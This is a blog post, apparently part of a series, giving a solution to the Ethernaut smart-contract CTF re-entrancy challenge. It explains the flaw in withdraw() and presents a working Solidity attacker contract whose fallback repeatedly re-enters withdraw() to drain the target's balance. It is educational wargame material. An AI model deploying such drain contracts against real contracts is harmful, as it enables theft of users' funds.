 ```yaml
---
title: 'Ethernaut Solutions Part 2: 10-19'
date: 2024-01-03T10:48:22+08:00
draft: false
tags: ["ctf"]
---
```


## Introduction

This is the Part 2 of Ethernaut Solution series:
- [Part 1](../ethernaut-solutions-part-1)
- Part 2 (Current)
- [Part 3](../ethernaut-solutions-part-3)

You can find all my solutions and local setup in this [GitHub repository](https://github.com/pkqs90/ethernaut-solutions).

This post will cover solutions for challenges 10-19. These ten challenges are somewhat more complex than the first ten. Solving them mainly involves understanding some Solidity internals (e.g. storage layouts), and basic security vulnerability patterns (e.g. reentrancy pattern).

## Solutions

### 10. Re-entrancy

This is a classic reentrancy vulnerability. There are two issues within the `withdraw()` function:
1. The transaction happens before the balance decrease
2. This line of code `balances[msg.sender] -= _amount;` does not check for integer underflow issue

So our solution is to setup a contract that calls `withdraw()` again upon ether receival:
```solidity
contract ReentrancyAttacker {

    IReentrancy challenge;

    constructor(address addr) {
        challenge = IReentrancy(addr);
    }

    function attack() public payable {
        challenge.donate{value: msg.value}(address(this));
        challenge.withdraw(msg.value);
    }

    fallback() external payable {
        uint remainingBalance = address(challenge).balance;
        if (remainingBalance > 0) {
            uint amount = remainingBalance < msg.value ? remainingBalance : msg.value;
            challenge.withdraw(amount);
        }
    }

}
```
Read [Checks-Effects-Interactions Pattern](https://docs.soliditylang.org/en/v0.6.11/security-considerations.html#use-the-checks-effects-interactions-pattern) for more details on reentrancy vulnerability.
